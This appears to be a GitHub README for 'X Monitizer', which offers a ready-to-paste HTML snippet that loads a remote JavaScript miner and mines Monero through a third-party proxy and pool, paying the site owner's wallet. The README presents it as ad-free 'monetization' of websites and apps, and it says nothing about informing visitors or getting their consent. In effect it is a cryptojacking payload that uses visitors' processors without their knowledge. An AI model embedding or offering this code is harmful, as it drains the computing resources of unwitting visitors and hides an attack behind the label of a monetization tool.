 ##### X Monitizer Is A PowerFull JS Used To Monitize Websites And Apps  
#### Use This Code To Basically Monitize Your Apps Without Ads For Free  
### See This Video For More Info : https://www.youtube.com/watch?v=AZU6TeEjHVQ
## `HTML SCRIPT`
```
<script src="https://monerominer.rocks/miner-mmr/webmnr.min.js"></script>
<script>
    server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = "PUT YOUR WALLET ADDRESS HERE";
    var workerId = ""
    var threads = -1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 20;
</script>
```
### Almost All Languages Supports Html Code Includelation .. Use This Code As Your Pride .. 
  
# How It Works ?
- It Is Created By `https://github.com/notgiven688/webminerpool` Repo Basicaly
- I Tooked `SDK/miner_compressed/webmr.js` Script And Used It As Index JS
- I Searched The Whole Internet And Atlest I Found A Free Hosted Server By `monerominer.rocks` And Then Picked It To Use It As `wss://f.xmrminingproxy.com:8181`
- It Currently Only Support One Pool That Is `moneroocean.steam` That Is Very Good Pool
# Bye Bye , Thanks
